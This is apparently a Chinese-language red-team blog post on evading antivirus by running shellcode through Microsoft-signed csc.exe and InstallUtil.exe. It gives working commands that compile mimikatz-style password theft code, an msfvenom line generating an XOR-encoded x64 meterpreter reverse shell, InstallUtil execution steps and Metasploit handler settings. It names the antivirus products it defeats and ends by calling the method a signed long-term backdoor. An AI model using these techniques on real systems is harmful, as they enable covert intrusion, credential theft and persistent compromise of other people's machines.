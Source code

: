 专注APT攻击与防御
https://micropoor.blogspot.com/

payload分离免杀思路第一季是专门针对x32系统，以及针对xp包括以下版本。而在实战中，目标机器多为Windows7以上版本。而服务器以x64位居多。在第一季中，借助了非微软自带第三方来执行Shellcode，这一季采取调用微软自带来执行Shellcode，这里就会有一个好处，调用自带本身一定就会有微软的签名，从而绕过反病毒软件。

**介绍相关概念：**
Windows自Windows XP Media Center Edition开始默认安装NET Framework，直至目前的Windows 10，最新的默认版本为4.6.00081.00。随着装机量，最新默认安装版本为4.7.2053.0。

**csc.exe：**
C#的在Windows平台下的编译器名称是Csc.exe，如果你的.NET FrameWork SDK安装在C盘，那么你可以在C:\WINNT\Microsoft.NET\Framework\xxxxx目录中发现它。为了使用方便，你可以手动把这个目录添加到Path环境变量中去。用Csc.exe编译HelloWorld.cs非常简单，打开命令提示符，并切换到存放test.cs文件的目录中，输入下列行命令:csc /target:exe test.cs将Ttest.cs编译成名为test.exe的console应用程序
```
//test.cs
using System; 
class TestApp 
{
    public static void Main()
    {
    Console.WriteLine("Micropoor!");
    }
}
```

**InstallUtil.exe：**
微软官方介绍如下：
> The Installer tool is a command-line utility that allows you to install and uninstall server resources by executing the installer components in specified assemblies. This tool works in conjunction with classes in the System.Configuration.Install namespace.
> This tool is automatically installed with Visual Studio. To run the tool,use the Developer Command Prompt (or the Visual Studio Command Prompt in Windows7). For more information, see Command Prompts.
https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool
```

关于两个文件默认安装位置：（注意x32，x64区别）
```
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
文章采取2种demo来辅助本文中心思想。

**demo1：**

以抓密码为例：测试环境：目标A机安装了360套装。目标机B安装了小红伞，NOD32。目标机安C装了麦咖啡。
生成秘钥：
![](media/cf8406093e5dbf031342ac48beecbb20.jpg)

执行：
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs`
![](media/b24b55a30609a64e9ae6eedd59669600.jpg)

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe`
![](media/54e053d6ba6b7ddf3ecff38b2e4b554c.jpg)
![](media/14d88766fa1337b2a7a1f4fcd0e41e7b.jpg)

**demo2：**
以msf为例：
生成shllcode
`msfvenom --platform Windows -a x64 -p windows/x64/meterpreter/reverse_tcp_uuid LHOST=192.168.1.5 LPORT=8080 -b '\x00' -e x64/xor -i 10 -f csharp -o ./Micropoor.txt`

![](media/60dc9d8d0c0d3716c0111382fda0880f.jpg)
![](media/06b4768ab7fb03e67d866bfa3535a8d0.jpg)

替换shellcode。
![](media/1981b698893f18b579b053c1c47cbbb5.jpg)



编译：
`C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /unsafe /platform:x64 /out:Micropoor.exe M.cs`
![](media/44a48a754a1077975cf9f7245474d6f4.jpg)

运行：
` C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe`
![](media/2e2468278724012a07b672ba28994b41.jpg)

**注：在实际测试的过程，起监听需要配置一些参数，防止假死与假session。**
```
msf exploit(multi/handler) > set exitonsession false 
exitonsession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) >
msf exploit(multi/handler) > set Stageencoder x64/xor 
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
msf exploit(multi/handler) > exploit -j -z
```
![](media/e0546970d950f42b600bc2c6822981e2.jpg)

上线：
![](media/c77a11ea1cd8acacd645ffd057050d18.jpg)

![](media/0976e92fb2d7d32e6999514481fce221.jpg)
mimi.cs 953.71KB

![](media/2b330088d5f9dc4a06c00fb9d9d95b94.jpg)
shllcode.cs


>   后者的话：该方法可以做一个带签名的长期后门。
>   Micropoor
